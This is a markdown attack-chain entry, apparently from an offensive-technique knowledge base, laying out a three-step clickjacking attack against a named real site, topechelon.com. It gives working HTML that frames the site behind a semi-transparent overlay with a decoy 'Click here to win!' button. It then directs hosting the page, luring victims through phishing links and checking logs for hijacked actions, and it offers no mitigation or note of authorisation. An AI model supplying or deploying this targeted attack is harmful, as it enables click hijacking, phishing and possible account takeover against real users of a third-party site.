

---
tags:
  - clickjacking
  - web-vulnerability
  - ui-manipulation
  - phishing
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Embed-Target-in-Malicious-Iframe]]'
  - '[[procedures/Overlay-Deceptive-UI-for-Click-Tricking]]'
  - '[[procedures/Host-and-Distribute-Malicious-Clickjacking-Page]]'
step_count: 3
techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:28:12.862Z'
description: >-
  A multi-stage clickjacking attack exploiting the lack of frame protection on
  https://topechelon.com/ to trick users into unintended interactions,
  potentially leading to account takeover or phishing.
skill_level: intermediate
impact_level: high
id: f8a7d8b9-907d-4992-b8c3-9e6466b8f85a
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Drive-by Compromise]]'
  - '[[Exploit Public-Facing Application]]'
---
# Clickjacking Exploitation on Top Echelon Website for User Action Hijacking

Multi-stage attack chain demonstrating a complete clickjacking workflow against https://topechelon.com/, a WordPress-based site lacking anti-framing protections.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 3 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web server (e.g., Apache or Python's SimpleHTTPServer)
- Text editor for HTML/CSS

### Target Environment

- Web platform
- No specific ports required beyond HTTP/HTTPS (80/443)
- Target: Public-facing WordPress site without X-Frame-Options or CSP frame-ancestors

### Initial Access Requirements

- No credentials needed
- Internet access to host malicious page
- Ability to lure users via email, social engineering, or ads

## Detailed Attack Procedures

### Step 1: Embed Target in Malicious Iframe
procedure: [[procedures/Embed-Target-in-Malicious-Iframe]]

**Objective**: Load the vulnerable site into an iframe without restrictions to prepare for overlay deception.

**Instructions**: Create a basic HTML file and embed https://topechelon.com/ using an iframe with no borders. Verify loading by opening the file locally in a browser.

```html
<!DOCTYPE html>
<html>
<head><title>Deceptive Page</title></head>
<body>
<iframe src="https://topechelon.com/" frameborder="0" style="position: absolute; top: 0; left: 0; width: 100%; height: 100%;"></iframe>
</body>
</html>
```

**Expected Output**: The target site loads fully within the iframe without blocking.

**Success Indicators**:
- Iframe content visible and interactive
- No browser errors about framing restrictions

### Step 2: Overlay Deceptive UI for Click Tricking
procedure: [[procedures/Overlay-Deceptive-UI-for-Click-Tricking]]

**Objective**: Make the iframe semi-transparent and add fake UI elements to trick clicks into propagating to the underlying site.

**Instructions**: Enhance the HTML with CSS to position deceptive elements like buttons over the iframe. Set iframe opacity to allow visibility while hiding true content.

```html
<!DOCTYPE html>
<html>
<head>
<style>
.iframe { position: absolute; top: 0; left: 0; width: 100%; height: 100%; opacity: 0.6; z-index: 99; }
.deceptive { position: absolute; top: 50%; left: 50%; z-index: 100; background: #fff; padding: 10px; }
</style>
</head>
<body>
<iframe src="https://topechelon.com/" class="iframe" frameborder="0"></iframe>
<div class="deceptive">Click here to win! <button>Submit</button></div>
</body>
</html>
```

**Expected Output**: Fake button appears over semi-transparent site; clicks on fake button interact with site elements underneath.

**Success Indicators**:
- Overlay elements positioned correctly
- Clicks on overlay trigger actions in iframe (e.g., form submit)

### Step 3: Host and Distribute Malicious Clickjacking Page
procedure: [[procedures/Host-and-Distribute-Malicious-Clickjacking-Page]]

**Objective**: Deploy the page to reach victims and observe hijacked interactions.

**Instructions**: Host the HTML on a public server and distribute via phishing links. Monitor for victim visits and unintended actions on the target site.

**Expected Output**: Victims visit the page, and clicks lead to actions like logging in or submitting forms on https://topechelon.com/.

**Success Indicators**:
- Page accessible via public URL
- Evidence of user interactions (e.g., via server logs or target site anomalies)

## Attack Chain Summary

### Key Achievements

1. Successful embedding of vulnerable site in iframe
2. Creation of deceptive overlay to hijack clicks
3. Deployment of attack page for real-world impact

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Drive-by Compromise]]
- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---

*Last updated: 2023-10-01T00:00:00Z*
